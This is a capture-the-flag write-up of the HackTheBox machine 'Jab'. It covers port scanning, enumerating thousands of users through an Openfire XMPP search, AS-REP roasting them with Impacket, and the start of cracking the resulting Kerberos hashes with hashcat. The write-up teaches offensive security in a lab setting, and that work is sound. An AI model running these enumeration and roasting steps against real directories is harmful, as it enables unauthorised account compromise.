# HTB: Jab

[hackthebox](/tags#hackthebox ) [ctf](/tags#ctf ) [htb-jab](/tags#htb-jab )
[windows](/tags#windows ) [nmap](/tags#nmap ) [jabber](/tags#jabber )
[xmpp](/tags#xmpp ) [openfire](/tags#openfire ) [netexec](/tags#netexec )
[pidgin](/tags#pidgin ) [xmpp-console](/tags#xmpp-console ) [as-rep-
roast](/tags#as-rep-roast ) [hashcat](/tags#hashcat )
[bloodhound](/tags#bloodhound ) [bloodhound-py](/tags#bloodhound-py ) [dcom-
execution](/tags#dcom-execution ) [dcom](/tags#dcom )
[dcomexec.py](/tags#dcomexec-py ) [openfire-plugin](/tags#openfire-plugin )  
  
Jun 29, 2024

HTB: Jab

Jab starts with getting access to a Jabber / XMPP server. I’ll use Pidgin to
enumerate other users, and find over two thousand! I’ll AS-REP-Roast these
users and find three that have the disable preauth bit set, and one with a
crackable password. Logging into the chat server as that user, I’ll find a
private chat discussing a pentest, and creds for another account. That account
has DCOM access. I’ll abuse that to get a shell on the box. From there, I’ll
access the Openfire admin panel and upload a malicious plugin to get execution
as system.

## Box Info

Name | [Jab](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fjab)   
[Play on
HackTheBox](https://hacktheboxltd.sjv.io/g1jVD9?u=https%3A%2F%2Fapp.hackthebox.com%2Fmachines%2Fjab)  
---|---  
Release Date | [24 Feb 2024](https://twitter.com/hackthebox_eu/status/1761073460514578718)  
Retire Date | 29 Jun 2024  
OS | Windows   
Base Points | Medium [30]  
Rated Difficulty |   
Radar Graph |   
 | 01:14:14[ Randominion](https://app.hackthebox.com/users/234175)  
  
 | 01:58:17[ xct](https://app.hackthebox.com/users/13569)  
  
Creator | [ mrb3n](https://app.hackthebox.com/users/2984)  
  
  
## Recon

### nmap

`nmap` finds many open TCP ports:

    
    
    oxdf@hacky$ nmap -p- --min-rate 10000 10.10.11.4
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-23 12:03 EDT
    Nmap scan report for 10.10.11.4
    Host is up (0.086s latency).
    Not shown: 65499 closed ports
    PORT      STATE SERVICE
    53/tcp    open  domain
    88/tcp    open  kerberos-sec
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    389/tcp   open  ldap
    445/tcp   open  microsoft-ds
    464/tcp   open  kpasswd5
    593/tcp   open  http-rpc-epmap
    636/tcp   open  ldapssl
    3268/tcp  open  globalcatLDAP
    3269/tcp  open  globalcatLDAPssl
    5222/tcp  open  xmpp-client
    5223/tcp  open  hpvirtgrp
    5262/tcp  open  unknown
    5263/tcp  open  unknown
    5269/tcp  open  xmpp-server
    5270/tcp  open  xmp
    5275/tcp  open  unknown
    5276/tcp  open  unknown
    5985/tcp  open  wsman
    7070/tcp  open  realserver
    7443/tcp  open  oracleas-https
    7777/tcp  open  cbt
    9389/tcp  open  adws
    47001/tcp open  winrm
    49664/tcp open  unknown
    49665/tcp open  unknown
    49666/tcp open  unknown
    49667/tcp open  unknown
    49674/tcp open  unknown
    49688/tcp open  unknown
    49689/tcp open  unknown
    49694/tcp open  unknown
    49705/tcp open  unknown
    49715/tcp open  unknown
    49786/tcp open  unknown
    
    Nmap done: 1 IP address (1 host up) scanned in 8.44 seconds
    oxdf@hacky$ nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5222,5223,5262,5263,5269,5270,5275,5276,5985,7070,7443,7777,9389,47001,49664,49665,49666,49667,49674,49688,49689,49694,49705,49715,49786 -sCV 10.10.11.4
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-06-23 12:08 EDT
    Nmap scan report for 10.10.11.4
    Host is up (0.086s latency).
    
    PORT      STATE SERVICE             VERSION
    53/tcp    open  domain?
    | fingerprint-strings:
    |   DNSVersionBindReqTCP:
    |     version
    |_    bind
    88/tcp    open  kerberos-sec        Microsoft Windows Kerberos (server time: 2024-06-23 16:07:59Z)
    135/tcp   open  msrpc               Microsoft Windows RPC
    139/tcp   open  netbios-ssn         Microsoft Windows netbios-ssn
    389/tcp   open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.jab.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
    | Not valid before: 2023-11-01T20:16:18
    |_Not valid after:  2024-10-31T20:16:18
    |_ssl-date: 2024-06-23T16:10:35+00:00; -13s from scanner time.
    445/tcp   open  microsoft-ds?
    464/tcp   open  kpasswd5?
    593/tcp   open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
    636/tcp   open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.jab.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
    | Not valid before: 2023-11-01T20:16:18
    |_Not valid after:  2024-10-31T20:16:18
    |_ssl-date: 2024-06-23T16:10:34+00:00; -12s from scanner time.
    3268/tcp  open  ldap                Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.jab.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
    | Not valid before: 2023-11-01T20:16:18
    |_Not valid after:  2024-10-31T20:16:18
    |_ssl-date: 2024-06-23T16:10:35+00:00; -12s from scanner time.
    3269/tcp  open  ssl/ldap            Microsoft Windows Active Directory LDAP (Domain: jab.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.jab.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.jab.htb
    | Not valid before: 2023-11-01T20:16:18
    |_Not valid after:  2024-10-31T20:16:18
    |_ssl-date: 2024-06-23T16:10:34+00:00; -12s from scanner time.
    5222/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       invalid-namespace
    |       (timeout)
    |     stream_id: 6hn2mqllse
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |       version: 1.0
    |     features:
    |
    |_    auth_mechanisms:
    5223/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       (timeout)
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |
    |     features:
    |
    |_    auth_mechanisms:
    5262/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       invalid-namespace
    |       (timeout)
    |     stream_id: 3ecs2otojs
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |       version: 1.0
    |     features:
    |
    |_    auth_mechanisms:
    5263/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       (timeout)
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |
    |     features:
    |
    |_    auth_mechanisms:
    5269/tcp  open  xmpp                Wildfire XMPP Client
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       (timeout)
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |
    |     features:
    |
    |_    auth_mechanisms:
    5270/tcp  open  ssl/xmpp            Wildfire XMPP Client
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    5275/tcp  open  jabber              Ignite Realtime Openfire Jabber server 3.10.0 or later
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       invalid-namespace
    |       (timeout)
    |     stream_id: 3iia9u2wwg
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |       version: 1.0
    |     features:
    |
    |_    auth_mechanisms:
    5276/tcp  open  ssl/jabber          Ignite Realtime Openfire Jabber server 3.10.0 or later
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    | xmpp-info:
    |   STARTTLS Failed
    |   info:
    |     errors:
    |       (timeout)
    |     capabilities:
    |
    |     compression_methods:
    |
    |     unknown:
    |
    |     xmpp:
    |
    |     features:
    |
    |_    auth_mechanisms:
    5985/tcp  open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    7070/tcp  open  realserver?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP:
    |     HTTP/1.1 400 Illegal character CNTL=0x0
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 69
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Date: Sun, 23 Jun 2024 16:07:59 GMT
    |     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
    |     Content-Type: text/html
    |     Accept-Ranges: bytes
    |     Content-Length: 223
    |     <html>
    |     <head><title>Openfire HTTP Binding Service</title></head>
    |     <body><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></body>
    |     </html>
    |   HTTPOptions:
    |     HTTP/1.1 200 OK
    |     Date: Sun, 23 Jun 2024 16:08:05 GMT
    |     Allow: GET,HEAD,POST,OPTIONS
    |   Help:
    |     HTTP/1.1 400 No URI
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 49
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
    |   RPCCheck:
    |     HTTP/1.1 400 Illegal character OTEXT=0x80
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 71
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
    |   RTSPRequest:
    |     HTTP/1.1 505 Unknown Version
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 58
    |     Connection: close
    |     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
    |   SSLSessionReq:
    |     HTTP/1.1 400 Illegal character CNTL=0x16
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 70
    |     Connection: close
    |_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
    7443/tcp  open  ssl/oracleas-https?
    | fingerprint-strings:
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP:
    |     HTTP/1.1 400 Illegal character CNTL=0x0
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 69
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x0</pre>
    |   GetRequest:
    |     HTTP/1.1 200 OK
    |     Date: Sun, 23 Jun 2024 16:08:12 GMT
    |     Last-Modified: Wed, 16 Feb 2022 15:55:02 GMT
    |     Content-Type: text/html
    |     Accept-Ranges: bytes
    |     Content-Length: 223
    |     <html>
    |     <head><title>Openfire HTTP Binding Service</title></head>
    |     <body><b>Openfire <a href="http://www.xmpp.org/extensions/xep-0124.html">HTTP Binding</a> Service</b></body>
    |     </html>
    |   HTTPOptions:
    |     HTTP/1.1 200 OK
    |     Date: Sun, 23 Jun 2024 16:08:18 GMT
    |     Allow: GET,HEAD,POST,OPTIONS
    |   Help:
    |     HTTP/1.1 400 No URI
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 49
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: No URI</pre>
    |   RPCCheck:
    |     HTTP/1.1 400 Illegal character OTEXT=0x80
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 71
    |     Connection: close
    |     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
    |   RTSPRequest:
    |     HTTP/1.1 505 Unknown Version
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 58
    |     Connection: close
    |     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
    |   SSLSessionReq:
    |     HTTP/1.1 400 Illegal character CNTL=0x16
    |     Content-Type: text/html;charset=iso-8859-1
    |     Content-Length: 70
    |     Connection: close
    |_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x16</pre>
    | ssl-cert: Subject: commonName=dc01.jab.htb
    | Subject Alternative Name: DNS:dc01.jab.htb, DNS:*.dc01.jab.htb
    | Not valid before: 2023-10-26T22:00:12
    |_Not valid after:  2028-10-24T22:00:12
    7777/tcp  open  socks5              (No authentication; connection failed)
    | socks-auth-info:
    |_  No authentication
    9389/tcp  open  mc-nmf              .NET Message Framing
    47001/tcp open  http                Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-server-header: Microsoft-HTTPAPI/2.0
    |_http-title: Not Found
    49664/tcp open  msrpc               Microsoft Windows RPC
    49665/tcp open  msrpc               Microsoft Windows RPC
    49666/tcp open  msrpc               Microsoft Windows RPC
    49667/tcp open  msrpc               Microsoft Windows RPC
    49674/tcp open  msrpc               Microsoft Windows RPC
    49688/tcp open  ncacn_http          Microsoft Windows RPC over HTTP 1.0
    49689/tcp open  msrpc               Microsoft Windows RPC
    49694/tcp open  msrpc               Microsoft Windows RPC
    49705/tcp open  msrpc               Microsoft Windows RPC
    49715/tcp open  msrpc               Microsoft Windows RPC
    49786/tcp open  msrpc               Microsoft Windows RPC
    3 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
    ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
    SF-Port53-TCP:V=7.80%I=7%D=6/23%Time=66784871%P=x86_64-pc-linux-gnu%r(DNSV
    SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
    SF:x04bind\0\0\x10\0\x03");
    ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
    SF-Port7070-TCP:V=7.80%I=7%D=6/23%Time=6678486C%P=x86_64-pc-linux-gnu%r(Ge
    SF:tRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2023\x20Jun\x202
    SF:024\x2016:07:59\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x202022\x
    SF:2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:\x20by
    SF:tes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title>Openf
    SF:ire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><font\x
    SF:20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http://www\.
    SF:xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Service</b
    SF:></body>\n</html>\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\x20Unkn
    SF:own\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nCont
    SF:ent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20
    SF:505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(HTTPOptions,56,"HT
    SF:TP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2023\x20Jun\x202024\x2016:08:05\
    SF:x20GMT\r\nAllow:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RPCCheck,C7,"HTTP
    SF:/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Type:\x20
    SF:text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnection:\x2
    SF:0close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20
    SF:character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1\.1\x2
    SF:0400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;
    SF:charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n
    SF:\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\
    SF:x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x20Illeg
    SF:al\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset=iso-8
    SF:859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1>Bad\x
    SF:20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x0</
    SF:pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\x20tex
    SF:t/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:\x20cl
    SF:ose\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20URI</pre
    SF:>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNT
    SF:L=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nContent-Leng
    SF:th:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1>
    SF:<pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
    ==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
    SF-Port7443-TCP:V=7.80%T=SSL%I=7%D=6/23%Time=66784879%P=x86_64-pc-linux-gn
    SF:u%r(GetRequest,189,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Sun,\x2023\x20Ju
    SF:n\x202024\x2016:08:12\x20GMT\r\nLast-Modified:\x20Wed,\x2016\x20Feb\x20
    SF:2022\x2015:55:02\x20GMT\r\nContent-Type:\x20text/html\r\nAccept-Ranges:
    SF:\x20bytes\r\nContent-Length:\x20223\r\n\r\n<html>\n\x20\x20<head><title
    SF:>Openfire\x20HTTP\x20Binding\x20Service</title></head>\n\x20\x20<body><
    SF:font\x20face=\"Arial,\x20Helvetica\"><b>Openfire\x20<a\x20href=\"http:/
    SF:/www\.xmpp\.org/extensions/xep-0124\.html\">HTTP\x20Binding</a>\x20Serv
    SF:ice</b></body>\n</html>\n")%r(HTTPOptions,56,"HTTP/1\.1\x20200\x
    SF:20OK\r\nDate:\x20Sun,\x2023\x20Jun\x202024\x2016:08:18\x20GMT\r\nAllow:
    SF:\x20GET,HEAD,POST,OPTIONS\r\n\r\n")%r(RTSPRequest,AD,"HTTP/1\.1\x20505\
    SF:x20Unknown\x20Version\r\nContent-Type:\x20text/html;charset=iso-8859-1\
    SF:r\nContent-Length:\x2058\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Mess
    SF:age\x20505</h1><pre>reason:\x20Unknown\x20Version</pre>")%r(RPCCheck,C7
    SF:,"HTTP/1\.1\x20400\x20Illegal\x20character\x20OTEXT=0x80\r\nContent-Typ
    SF:e:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2071\r\nConnecti
    SF:on:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illeg
    SF:al\x20character\x20OTEXT=0x80</pre>")%r(DNSVersionBindReqTCP,C3,"HTTP/1
    SF:\.1\x20400\x20Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text
    SF:/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20clo
    SF:se\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20char
    SF:acter\x20CNTL=0x0</pre>")%r(DNSStatusRequestTCP,C3,"HTTP/1\.1\x20400\x2
    SF:0Illegal\x20character\x20CNTL=0x0\r\nContent-Type:\x20text/html;charset
    SF:=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<h1
    SF:>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CNTL
    SF:=0x0</pre>")%r(Help,9B,"HTTP/1\.1\x20400\x20No\x20URI\r\nContent-Type:\
    SF:x20text/html;charset=iso-8859-1\r\nContent-Length:\x2049\r\nConnection:
    SF:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20No\x20UR
    SF:I</pre>")%r(SSLSessionReq,C5,"HTTP/1\.1\x20400\x20Illegal\x20character\
    SF:x20CNTL=0x16\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConten
    SF:t-Length:\x2070\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x2040
    SF:0</h1><pre>reason:\x20Illegal\x20character\x20CNTL=0x16</pre>");
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    |_clock-skew: mean: -12s, deviation: 0s, median: -12s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled and required
    | smb2-time:
    |   date: 2024-06-23T16:10:20
    |_  start_date: N/A
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 166.60 seconds
    

This looks like a Windows domain controller, with some additional services as
well. The domain `jab.htb` and hostname `DC01.jab.htb` both leak from various
services.

I’ll sort potential avenues to pursue into tiers:

  * Teir 1: 
    * SMB (445) - Check for unauthenticated / guest access.
    * There’s a bunch of ports associated with a messaging service: 
      * Jabber (5222, 5223, 5262, 5263, 5275, 5276)
      * XMPP (5269, 5270)
      * OpenFire (7070, 7443)
    * Some kind of proxy on 7777.
  * Teir 2: 
    * DNS (53) - Check for zone transfer (unlikely), and brute force subdomains.
    * Kerberos (88) - Brute force usernames and/or passwords.
    * LDAP (389, many more) - Check for unauthenticated access (unlikely).
  * With Creds 
    * WinRM (5985) - Check for shell access.

I’ll update my `/etc/hosts` file with the domain / host:

    
    
    10.10.11.4 jab.htb dc01.jab.htb dc01
    

### SMB - TCP 445

`netexec` shows that the OS is Server 2019:

    
    
    oxdf@hacky$ netexec smb jab.htb 
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    

No unauthenticated access is allowed:

    
    
    oxdf@hacky$ netexec smb jab.htb -u guest -p ''
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [-] jab.htb\guest: STATUS_ACCOUNT_DISABLED 
    oxdf@hacky$ netexec smb jab.htb -u oxdf -p oxdf
    SMB         10.10.11.4      445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:jab.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.4      445    DC01             [-] jab.htb\oxdf:oxdf STATUS_LOGON_FAILURE 
    

### XMPP

#### Background

[XMPP](https://xmpp.org/) is a “universal messaging standard”. It allows for
“XMPP-compatible software to join the XMPP messaging network”. [This
page](https://xmpp.org/software/?platform=linux) has a large list of clients
that meet the standard.

Jabber is the original protocol that evolved into XMPP.

[OpenFire](https://www.igniterealtime.org/projects/openfire/) is a “real time
collaboration” server that is XMPP compliant.

[Pidgin](https://www.pidgin.im/) is an easy-to-use client that can communicate
with an XMPP network. I’ll install it on my host with `apt install pidgin`.

#### Create Account

I’ll open Pidgin and it says I have no accounts configured:



I’ll click “Add…” and select XMPP from the “Protocol” drop-down, and fill out
the rest:



When I submit, after accepting the TLS certificate, a registration window
opens, which I’ll fill out:



On submitting, it says it was successful:

I’ll select this from the accounts window,and the “Buddy List” window shows my
account is online and available:



#### Rooms

From the menu, “Tools” –> “Room List” will give a series of dialogs that leads
to a list of the rooms on this server:



`conference.jab.htb` is automatically filled in. Clicking “Find Rooms” returns
two:

I don’t have access to “test”:



“test2” has a message from bdavis:



The image doesn’t display, as the base64-encoded data is just text:

    
    
    oxdf@hacky$ echo "VGhlIGltYWdlIGRhdGEgZ29lcyBoZXJlCg==" | base64 -d 
    The image data goes here
    

#### Users

From the menu, “Accounts” –> “0xdf@jab.htb/(XMPP)” –> “Search for Users…”
provides username enumeration on this server:



It asks for a “directory” to search, and has pre-populated the field with
“search.jab.htb”:

I’ll click ok, and in the next window enter “*”:



The resulting window has a _ton_ of users with email addresses:



#### Plugins / User Export

Under “Tools” –> “Plugins” I’ll take a look at the enabled plugins:



I don’t see anything interesting enabled, but I’ll enable “XMPP Console”, and
now that shows up in the “Tools” menu:



[This page](https://xmpp.org/extensions/xep-0055.html) in the XMPP
documentation shows how to craft XML XMPP messages to issue search queries.
[Example 3](https://xmpp.org/extensions/xep-0055.html#example-3) shows how to
search, which I can update (with some trial and error) for my aims to:

    
    
    <iq type='set' 
        from='0xdf@jab.htb'
        to='search.jab.htb'
        id='search4users'
        xml:lang='en'>
    	<query xmlns='jabber:iq:search'>
            <last>*</last>
    	</query>
    </iq>
    

On pasting this in, the response is a long XML blob listing the users:



I’ll copy that into `users.xml`, and parse out the usernames:

    
    
    oxdf@hacky$ xmllint --xpath "//*[local-name()='item']/@jid" users.xml | cut -d'"' -f2 | cut -d@ -f1 | head #wc -l
    lmccarty
    nenglert
    aslater
    rtruelove
    pwoodland
    pparodi
    mhernandez
    atorres
    apugh
    lray
    oxdf@hacky$ xmllint --xpath "//*[local-name()='item']/@jid" users.xml | cut -d'"' -f2 | cut -d@ -f1 > users.txt 
    oxdf@hacky$ wc -l users.txt 
    2684 users.txt
    

That’s a ton of users!

## Auth as jmontgomery

### ASREP Roast

With this long list of users, I’ll check for any that have the don’t require
preauth flag enabled:

    
    
    oxdf@hacky$ GetNPUsers.py jab.htb/ -dc-ip dc01.jab.htb -usersfile users.txt -outputfile asrep.txt -format hashcat
    Impacket v0.12.0.dev1+20240308.164415.4a62f39 - Copyright 2023 Fortra
    
    [-] User lmccarty doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User nenglert doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User aslater doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User rtruelove doesn't have UF_DONT_REQUIRE_PREAUTH set
    [-] User pwoodland doesn't have UF_DONT_REQUIRE_PREAUTH set
    ...[snip]...
    

This takes a few minutes to run as there are so many users. There are three
with `UF_DONT_REQUIRE_PREAUTH`:

    
    
    oxdf@hacky$ wc -l asrep.txt
    3 asrep.txt
    oxdf@hacky$ cat asrep.txt
    $krb5asrep$23$jmontgomery@JAB.HTB:079194bb8982efb1f06ca790f8b267fa$747d3614459f850c0fef76d6ac9f101605e299b05a6125bb0b161e2671ab71797b61d79ff05ed8ae819842b925b21c411c38eae95096d2e024fefc26d2705b0407f6feaed713bb4d1b03673e0a3a1ff79d61260c3e83e456e85e340052185ad4baff574b3102ce41dbfb4b03c81b42fd62691b27c7bdeb47e3d21772434b29035e4ca3c791c775941c18b9343efa815fd3057393bfa8318e45654618919370ccf85f3c3b0508d63260fb96155be5e3941b03d187020417fa1e86a0cf47ebbf59116b1dc0f308afb0880ae00b2a432ad9614fd4b082a7e75729caae6cf2fb62b6508c
    $krb5asrep$23$lbradford@JAB.HTB:6c69c9918958349883daa5bfaca2ebf8$87275459282a43057f2af8b8a8c7d23526244d919f332de996ddae35ad27c4869d2c2d01cdbb31be82f50482f9959755dd244463a3673ad5992d57fb2b337639daac0803cda2a03bd57f7e0a283e9b0a8a3ac43c0f70c346d6416d38ea60b782ec42b836c758ca5d3e12a3d0e994520e5d8930eac6a35e3fb9622153e0cca6d16a26ca33ad9bb3d99076b5d105ca23f0de653b1c56e1859c79e6cb3e25a89ad3c56ea39a84f3bd3fd700348e49fa3e7e2e79b74ff942f4cc917d54321e2b38dbe52d756eb86ee38162b691a04248334de6ab97b5be2ceb8c2d3d7d1fada0fade5945
    $krb5asrep$23$mlowe@JAB.HTB:1771e7b9e073f71c4c233bb5501b8e18$a124d42412669ee4ef008775530a70e5ef1a9a29506c642991c2fbad6a1fc456ba5687265499cae9e7b25a592d6cdaa7d16213fc0736f169812085449c35e64d4a99b9f64fa2f7f0a061deb15b4852b55497c6584f5bfd80dba5e4588f1636198a2d456eef7f39bec8d8d084046642087bd369564e648a332601cc35498dd5c5e896e77f66f9f2c9eaf2641e28479cbd8a30dd7df24f666eec51284b4d58cfaff372930b711ea19e4bb56a91aa8b4e241102fa950cae747cc2871b11f265a6fe679c7d5382688e058e31f4bd97a46a446cce423181c8546a85ed87f9af3a11d3310c
    

### Crack Hashes

I’ll pass these into `hashcat` with `rockyou.txt` to see if any crack:

    
    
    oxdf@corum:~/hackthebox/jab-10.10.11.4$ hashcat asrep.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
    hashcat (v6.2.6) starting in autodetect mode
    ...[snip]...
